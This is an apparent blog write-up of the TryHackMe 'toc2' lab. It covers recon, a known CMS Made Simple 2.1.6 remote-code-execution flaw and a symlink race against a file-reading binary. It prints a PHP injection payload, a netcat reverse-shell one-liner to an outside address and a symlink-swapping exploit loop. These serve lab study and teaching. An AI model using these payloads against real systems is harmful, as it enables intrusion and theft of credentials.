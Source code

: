 ```yaml
---
title: "toc2 - TryHackMe"
date: 2022-03-15T10:45:50-03:00
---
```


https://tryhackme.com/room/toc2

## **User Flag**

First, we use nmap to see which ports are open.

![nmap-toc2](/toc2/nmap-toc2.png)

We notice that ports 22 and 80 are open. Since we hardly have something to explore on SSH, we start by accessing the website.

![site-toc2](/toc2/site-toc2.png)

Here we collect a username and password (*cmsmuser:devpass*) and maybe another possible username (*Hunter*).

One of the nmap scripts brought us an existing *robots.txt* entry, so let's check it out.

![robots-toc2](/toc2/robots-toc2.png)

Here we find the installation path for cmsms, which is the manager that should be installed in this application, and we also collect the name of the db to be used: *cmsmsdb*.

![cmsms-toc2](/toc2/cmsms-toc2.png)

By accessing the indicated directory, we can proceed with the installation of the system.
First of all, since we can check the version used, let's look for any known vulnerabilities in cmsms 2.1.6.

As soon as we search, we already get a Remote Code Execution exploit. Perfect!  
https://www.exploit-db.com/exploits/44192

![exploit-toc2](/toc2/exploit-toc2.png)

Following the exploit, we notice that it already starts to be exploited when installing the manager itself.

To perform the installation, we enter the data collected earlier. Before proceeding to the next step, we intercept this request and enter the payload *junk';echo%20system($_GET['cmd']);$junk='junk* in the UTC field.

![database-toc2](/toc2/database-toc2.png)

![burpsuite-toc2](/toc2/cmsms2-toc2.png)

Now we access the address *http://10.10.169.35/cmsms/config.php?cmd=id;uname* and notice that the command entered in the cmd parameter is executed on the victim host and returned to us.

![cmd-execution-toc2](/toc2/cmsms2-cmd-toc2.png)

Since we can run remote commands, we can try a reverse shell.

I used the payload *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.117.185 3333 >/tmp/f* encoded to URL.

![first-access-toc2](/toc2/initial-access-toc2.png)

When I first got access to the machine I used python to get a stable shell, but this is not necessary since we got frank's password from the file *new_machine.txt* located in his home folder to make a ssh connection.

There we also get the user flag!

![user-txt-toc2](/toc2/user-txt-toc2.png)

## Root Flag

On frank's home we notice an interesting directory called *root_access*. Inside it we have a c file, an executable and a text file that only the root user is allowed to read.

When reading the c file to understand what the executable does, we realize that it is used to read files, but only files that the user running it has permission to read.

Probably our mission is to use *readcreads* to read the file *root_password_backup* and get root's password.

![readcreds-toc2](/toc2/readcreds-toc2.png)

I spent some time trying to figure out how to exploit this program until I took a look at the hint offered by the CTF. In the github located in the hint, we noticed that it is a *race condition vulnerability*.

Researching a bit, I came across [this link](https://samsclass.info/127/proj/E10.htm) that talks about exploiting programs that use the *access()* function and also have some *time interval* before the time of usage.

The article shows exactly how to exploit this vulnerability. We create a file to which we have read access. Then we create a symbolic link called flip pointing to this file. When trying to read the symbolic link we are able to use readcreds correctly.

I then point the flip to root_password_backup just for a test case. Trying to read "flip" with readcreds logically returns an error.

![root-flag1-toc2](/toc2/root-flag-toc2.png)

Now we will actually explore this race condition. First, we create a loop with this command:
*while true; do ln -sf root_password_backup flip; ln -sf public flip; done &*

This command will constantly change the symbolic link between the file we have access to and the file with the root password.

Then we run a loop to execute the program multiple times by reading the symbolic link with this command: *for i in {1...30}; do ./readcreds flip; done*

The trick here is that at some point the program will do a condition check with the permissions on the public file, and when it reads the "flip" file, the symbolic link will have already been changed and will be pointing to root_password_backup.

![root-flag2-toc2](/toc2/root2-flag-toc2.png)

If you want to understand more about this race condition vulnerability, you can watch [this video](https://www.youtube.com/watch?v=5g137gsB9Wk). 

See ya =).


